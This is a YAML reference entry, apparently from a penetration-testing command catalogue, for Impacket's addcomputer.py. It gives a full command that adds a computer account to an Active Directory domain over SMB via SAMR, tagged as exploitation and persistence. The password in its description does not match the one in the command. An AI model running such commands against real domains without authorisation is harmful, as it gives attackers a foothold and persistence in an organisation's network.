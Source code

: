 ```yaml
---
description: |
  Impacket's addcomputer.py will add a computer account to the domain and set its password. The following command will create a new computer over the SMB by specifying the `SAMR` method.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	New Computer Password: TestPassword123

  	New Computer Name: testComputer

  	Username: john

  	Password: password123

command: |
  python3 addcomputer.py -method SAMR -dc-ip 10.10.10.1 -computer-pass TestPassword321 -computer-name testComputer test.local/john:password123
items:
  - Username
  - Password
services:
  - SMB
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py
  - http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html
---
```

